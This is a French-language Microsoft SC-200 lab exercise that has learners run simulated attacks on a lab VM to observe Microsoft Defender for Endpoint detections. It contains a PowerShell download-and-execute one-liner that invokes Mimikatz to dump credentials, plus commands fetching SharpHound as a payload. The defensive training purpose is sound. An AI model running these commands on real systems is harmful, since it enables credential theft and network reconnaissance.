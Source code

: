 ```yaml
---
lab:
  title: "Exercice 2\_-\_Atténuer les attaques avec Micrsoft Defender for Endpoint"
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Parcours d'apprentissage 2 - Labo 1 - Exercice 2 - Atténuer les attaques avec Microsoft Defender for Endpoint

## Scénario du labo

![Vue d’ensemble du labo](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Vous êtes un analyste des opérations de sécurité travaillant dans une entreprise qui implémente Microsoft Defender pour point de terminaison. Votre responsable prévoit d’intégrer quelques appareils afin de fournir des informations sur les modifications requises des procédures de réponse de l’équipe chargée des opérations de sécurité.

Pour explorer les fonctionnalités d’atténuation des attaques Defender for Endpoint, vous allez exécuter deux attaques simulées.

>**Remarque :** Une **[simulation de labo interactive](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** est disponible et vous permet de progresser à votre propre rythme. Il peut exister de légères différences entre la simulation interactive et le labo hébergé. Toutefois, les concepts et idées de base présentés sont identiques. 


### Tâche 1 : Vérifier l’intégration de l’appareil

Dans cette tâche, vous allez confirmer que l’appareil a été intégré avec succès et créer une alerte de test.

1. Si vous n’êtes pas encore sur le portail Microsoft Defender XDR dans votre navigateur Microsoft Edge, accédez à https://security.microsoft.com) et connectez-vous en tant qu’administrateur pour votre tenant.

1. Dans le menu de gauche, sous la zone **Ressources** , sélectionnez **Appareils**. Veuillez patienter jusqu’à ce que WIN1 apparaisse sur la page Appareils avant de continuer. Sinon, vous devrez peut-être répéter cette tâche pour voir les alertes qui seront générées ultérieurement.

    >**Remarque :** si vous avez terminé le processus d’intégration et que vous ne voyez pas d’appareils sur la liste Appareils au bout d’une heure, cela peut indiquer un problème d’intégration ou de connectivité.

1. Sélectionnez **Paramètres** dans la barre de menus de gauche, puis, sur la page Paramètres, choisissez **Points de terminaison**.

1. Sélectionnez **Intégration** dans la section Gestion des appareils, puis vérifiez si *« Windows 10 et Windows 111 »* est sélectionné comme système d’exploitation. Le message *« Premier appareil intégré »* affiche désormais *Terminé*.

1. Faites défiler la page vers le bas puis, sous la section *« 2. Exécuter un test de détection »,* puis copiez le script de test de détection en sélectionnant le bouton **Copier**.  

1. Dans la barre de recherche Windows de la machine virtuelle WIN1, tapez **CMD** et choisissez **Exécuter en tant qu’administrateur** dans le volet droit de l’application Invite de commandes. 

1. Lorsque la fenêtre « Contrôle de compte d’utilisateur » apparaît, sélectionnez **Oui** pour autoriser l’exécution de l’application. 

1. Collez le script en cliquant avec le bouton droit dans les fenêtres d’invite **Administrateur : Invite de commande**, ppuis appuyez sur **Entrée** pour l’exécuter.

    >**Remarque :** la fenêtre se ferme automatiquement après l’exécution du script.

### Tâche 2 : Attaques simulées

Dans cette tâche, vous allez exécuter deux attaques *simulées* en utilisant *PowerShell* sur *WIN1* pour explorer les fonctionnalités de Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. Sur l’ordinateur *WIN1*, tapez **Commande** dans la barre de recherche, puis sélectionnez **Exécuter en tant qu’administrateur**.

1. Copiez et collez la commande suivante dans la fenêtre **Administrateur : invite de commandes**, puis appuyez sur **Entrée** pour l’exécuter.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Vous devez voir un message indiquant que l’*Accès est refusé* ainsi qu’un message contextuel de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` affichant *Menaces trouvées*.

1. Quittez la fenêtre **Administrateur : invite de commandes** en tapant **quitter** et en appuyant sur **Entrée**.

`Attack 2: Bloodhound - Collection`

1. Sur l’ordinateur *WIN1*, entrez **PowerShell** dans la barre de recherche, sélectionnez **Windows PowerShell**, puis **Exécuter en tant qu’administrateur**.

1. Copiez et collez les commandes suivantes dans la fenêtre **Administrateur : Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Remarque :** Il est recommandé de copier, coller et exécuter les commandes une par une. Vous pouvez ouvrir *Bloc-notes* et copier les commandes dans un fichier temporaire pour y parvenir. La première commande crée un dossier nommé *ExternalPayloads* dans le même dossier que le dossier *Atomic Red Team*. La deuxième commande télécharge le fichier *SharpHound.ps1* à partir du référentiel GitHub *BloodHound* et l’enregistre dans le dossier *ExternalPayloads*.

1. Un message contextuel s’affiche à partir de `Windows Security Virus and threats protection` affichant *Menaces trouvées*.

1. Copiez et collez la commande suivante dans la fenêtre **Administrateur : Windows PowerShell**, puis appuyez sur **Entrée** pour l’exécuter.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la sortie a la valeur *True*, le fichier de charge utile du programme malveillant n’a pas été supprimé par Microsoft Defender Antivirus. Si la sortie a la valeur *False*, le fichier de charge utile du programme malveillant a été supprimé par Microsoft Defender Antivirus. Utilisez la touche de direction vers le haut pour répéter la commande jusqu’à ce que la sortie soit *False*.

<!---1. From the left menu, under **Endpoints**, select **Evaluation & tutorials** and then select **Tutorials & simulations** from the left side.

1. Select the **Tutorials** tab.

1. Under *Automated investigation (backdoor)* you will see a message describing the scenario. Below this paragraph, click **Read the walkthrough**. A new browser tab opens which includes instructions to perform the simulation.

1. In the new browser tab, locate the section named **Run the simulation** (page 5, starting at step 2) and follow the steps to run the attack. **Hint:** The simulation file *RS4_WinATP-Intro-Invoice.docm* can be found back in portal, just below the **Read the walkthrough** you selected in the previous step by selecting the **Get simulation file** button. 

1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Tâche  3 : Examiner les attaques

1. Dans le portail Microsoft Defender XDR, sélectionnez **Incidents et alertes** dans le menu de gauche, puis **Incidents**.

1. Un nouvel incident appelé « Plusieurs familles de menaces ont été détectées sur un point de terminaison » se trouve dans le volet droit. Sélectionnez le nom de l’incident pour charger ses informations.

    >**Remarque :** Vous devez voir les alertes *Bloodhound* et Mimikatz* dans le volet **Alertes**. Dans **Ressources/Appareils**, l’ordinateur *win1* a désormais un **Niveau de risque** *Élevé*.

1. Sélectionnez le bouton **Gérer l'incident** .Un nouveau panneau de fenêtre s’affiche. 

1. Sous **Balises d’incident**, tapez « Simulation », puis sélectionnez **Simulation (Créer)** pour créer une balise. 

1. Sélectionnez le bouton bascule **Attribuer à** et ajoutez votre compte d’utilisateur (Moi) en tant que propriétaire de l’incident. 

1. Sous **Classification**, développez le menu déroulant. 

1. Sous **Informational, activité  attendue**, sélectionnez **Test de sécurité**. 

1. Ajoutez des commentaires si vous le souhaitez, puis sélectionnez **Enregistrer** pour mettre à jour l’incident et quitter la page.

1. Passez en revue le contenu des onglets  *Histoire d’attaque, Alertes, Ressources, Investigations, Preuve et réponse* et *Résumé*. Les appareils et les utilisateurs sont répertoriés sous l’onglet *Ressources* . L’onglet *Histoire d’attaque* affiche le *graphique Incident*. Conseil ** :** certains onglets peuvent être masqués en raison de la taille de votre écran. Sélectionnez l’onglet représentant des points de suspension (...) pour les afficher.

    >**Avertissement :** Les attaques simulées ici constituent une excellente source d’apprentissage via la pratique. Effectuez uniquement les attaques dans les instructions fournies pour ce labo lors de l’utilisation du cours fourni au tenant Azure.  Vous pouvez effectuer d’autres attaques simulées *après* avoir effectué ce cours de formation avec ce tenant.

## Vous avez terminé le labo.
